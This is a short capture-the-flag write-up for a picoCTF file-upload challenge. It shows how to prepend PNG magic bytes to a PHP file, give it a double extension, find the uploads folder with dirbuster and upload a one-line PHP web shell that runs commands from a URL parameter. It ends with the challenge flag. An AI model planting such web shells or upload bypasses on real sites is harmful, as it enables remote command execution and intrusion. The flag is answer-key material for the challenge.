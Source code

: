 `touch empty_payload.png`
`head ~/Downloads/10846.png -c 8 >> only_magic_payload.png`


Use dirbuster to find the `/uploads/` folder

Test and find out that `/uploads/only_magic_payload.png` exists


`cp only_magic_payload.png not_a_png.png.php`


It can be uploaded and can be viewed as text at `/uploads/not_a_png.png.php`


`cp only_magic_payload.png true_payload.png.php`
`echo '<?php passthru($_GET["cmd"]); ?>' >> true_payload.png.php`

Send a GET request: `http://atlas.picoctf.net:64538/uploads/true_payload.png.php?cmd=ls`

From there traverse the system and read the flag file.

`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}`
